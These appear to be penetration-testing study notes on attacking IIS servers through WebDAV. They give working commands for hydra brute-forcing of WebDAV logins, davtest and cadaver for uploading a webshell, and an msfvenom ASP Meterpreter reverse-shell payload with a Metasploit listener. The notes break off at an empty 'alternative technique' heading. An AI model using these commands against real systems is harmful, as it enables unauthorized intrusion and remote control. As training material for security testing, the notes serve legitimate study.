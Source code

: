 IIS (internet information services ) is proprietary microsoft web server. Functions the same as Apache or NGINx but the advantage is that administrators have a GUI to manage the sites hosted on IIS.

Can host sites developed on aspx or PHP. Typically configured to run on ports 80 and 443

.asp
.aspx
.config
.php

**webdav**

set of extension to HTTP protocol that allows users to manage files on web servers. Like a file server for collaborative authoring. Runs on otp of IIS.

Credentials must be provided to authenticate (user name password identity). (sometimes not configured)

**webdav exploitation**

will involve determining if webdav has been configured to run (enumeration) then we can brute force the webdav auth form to establish a foothold (by uploading a malicious .asp payload) 

We will be working with tools that automate this. 

- davtest (enumeration)
- cadaver (exploitation)

**nmap script**

--script=http-enum

**hydra**

hydra -L usernamelist.txt -P passwordlist.txt ip.addr http-get /webdav/

**once credentialed run test with davtest**

davtest -auth username:password -url http://victim.com

**Cadaver**

cadaver http://ip.addr/webdav

* enter credentials *

Then you get a shell emulator

Kali keeps webshells under /usr/share/webshells

put /path/to/webshell

This provides you with a webshell that you can interact with through the web browser.

**Metasploit**

can use msfvenom to generate the payload

msfvenom -p windows/meterpreter/reverse_tcp LHOST=local.addr LPORT=1337 -f asp > shell.asp

(32 bit shells are normally recommended)

Configure your listener in Metasploit

use multi/handler

set payload windows/meterpreter/reverse_tcp

set your options to match your msfvenom

* alternative technique *







